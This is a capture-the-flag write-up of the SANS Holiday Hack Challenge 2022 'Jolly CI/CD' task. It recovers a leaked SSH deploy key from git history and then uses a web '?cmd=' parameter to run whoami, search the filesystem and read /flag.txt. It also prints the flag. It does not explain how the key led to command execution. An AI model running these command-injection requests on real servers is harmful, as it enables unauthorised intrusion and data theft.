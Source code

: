 # Recover the Elfen Ring: Jolly CI/CD  
**SANS Holiday Hack Challenge 2022 – KringleCon V: Golden Rings**  
**Difficulty:** 🎄🎄🎄🎄🎄

## Overview  
This challenge focused on exploiting a misconfigured CI/CD pipeline. By reviewing commit history and examining leftover credentials, I was able to impersonate a developer, interact with a remote service, and uncover the flag.

---

## Steps Performed

### 1. Clone the Repository  
Tinsel Upatree referenced a GitLab repo:
```
http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
```
I cloned it locally and began reviewing the Git history.

---

### 2. Analyze Git Log for Mistakes  
Running `git log`, I found a suspicious commit labeled `whoops`. This commit occurred just before a `.ssh/.deploy` file was deleted, which seemed like a mistake.

```bash
git log
git diff abdea0ebb21b156c01f7533cea3b895c26198c98 e19f653bde9ea3de6af21a587e41e7a909db1ca5
```

The diff revealed that a **private SSH deploy key** had been removed in that commit — suggesting it was unintentionally added before.

---

### 3. Exploit the Web Server  
Using the leaked key, I interacted with `wordpress.flag.net.internal`, a CI/CD-managed site.

I verified I could execute commands via the server:

```bash
wget "wordpress.flag.net.internal?cmd=whoami" -q -O -
# Output: www-data
```

This confirmed command execution through the web interface.

---

### 4. Locate the Flag  
I searched the filesystem for any references to "flag":

```bash
wget "wordpress.flag.net.internal?cmd=find /* 2>/dev/null | grep flag" -q -O -
```

A promising result: `/flag.txt`.

---

### 5. Retrieve the Flag Contents  
Using another HTTP request, I dumped the contents of `/flag.txt`:

```bash
wget "wordpress.flag.net.internal?cmd=cat /flag.txt" -q -O -
```

Amid celebratory ASCII art, I found the solution string:

```
oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT
```

---

## Outcome  
By reviewing commit history and identifying an exposed private SSH key, I was able to access a misconfigured CI/CD endpoint, execute arbitrary commands, and extract the final flag from the host system.

**Final Answer:**  
```
oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT
```
